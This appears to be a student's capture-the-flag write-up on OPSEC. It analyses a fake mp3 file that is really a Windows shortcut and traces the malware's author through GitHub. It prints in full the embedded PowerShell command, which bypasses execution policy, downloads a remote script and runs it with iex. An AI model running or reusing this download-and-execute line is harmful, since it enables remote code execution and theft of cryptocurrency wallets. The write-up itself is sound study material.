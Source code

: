 # Day 1: OPSEC

## OPSEC : Operational Security

**Definition :**
OPSEC is the principles and tactics to assure the security of an operator/operation by :
1. Identifying the valuable assets and possible threats to it
2. Figuring out how they can be exposed
3. Taking steps to secure them

**OPSEC failures :**
Practices that can cause you being compromised  , tracked or identified , such as using real usernames , photos , emails ....

## Our case :
Websites such as youtube/mp3 converters can have risks such as : malvertising , phishing scams , bundled malware ...

After connecting to he machine :
downloading an mp3 file (somg.mp3) from what it looks like a legitimate website

1. we analyze this file using the commands : `file` & `exiftool`

In our case : 

`file somg.mp3`

→ shows that the file isn’t an mp3 file (even if the extension is mp3) , but it is a shortcut (.lnk : file that redirects to another file/directory)

`exiftool somg.mp3` 

→ shows the metadata of the file , and it shows that it is opening the powershell of windows and inside it executing a command : 

```powershell
**-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"**
```

1. analyzing this command : 
    
     **`-ep Bypass -nop -c` : bypass :** disabling all the restriction for the next script
    
     `“(……….)”` : the script : downloading a file (**.DownloadFile**) from a remote server (**https://raw.github……../IS.ps1**) into a directory  (**C:\ProgramData\s.ps1**)
    
2. We have then to visit the file from the remote server since we have its link , and we can find that it’s a script that collect sensitive informations (cryptocurrency wallets) , and by analyzing this script , we can find a clue , a line that said : **`Write-Host "   Created by the one and only M.M."`**
    
    ! that can give us a clue about who wrote that code , so we have to do our search !
    
3. one of the first places to search in when it comes to codes is **GitHub** !!
    
    doing the search of on “**Created by the one and only M.M”** github open the doors of heaven for us : with simple navigation on repositories and codes and users , we can find the real author of code 
    

! and that was an example of a very fatal OPSEC failure !!
